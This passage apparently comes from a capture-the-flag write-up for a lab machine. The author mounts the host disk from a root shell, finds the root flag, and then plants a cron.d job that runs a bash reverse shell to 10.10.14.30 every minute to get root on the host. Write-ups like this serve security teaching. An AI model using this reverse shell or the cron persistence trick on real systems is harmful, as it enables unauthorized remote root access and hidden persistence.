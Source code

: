 I just mounted sda1 and I get system access. Got Root Flag.

```bash
root@backup:/dev# mount /dev/sda1 /mnt
mount /dev/sda1 /mnt
root@backup:/dev# cd /mnt
cd /mnt
root@backup:/mnt# ls
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
root@backup:/mnt# cd root
cd root
root@backup:/mnt/root# ls
ls
root.txt
```

To get shell as root, we can use cron again. I just did the same as what I did before. 

```bash
root@backup:/mnt/tmp# echo 'bash -c "bash -i >& /dev/tcp/10.10.14.30/1010 0>&1"' > root.sh         
root@backup:/mnt/tmp# cd /mnt/etc/cron.d
cd /mnt/etc/cron.d
root@backup:/mnt/etc/cron.d# echo '* * * * * root sh /tmp/root.sh' > root
echo '* * * * * root sh /tmp/root.sh' > root
root@backup:/mnt/etc/cron.d# cat root
cat root
* * * * * root sh /tmp/root.sh
```
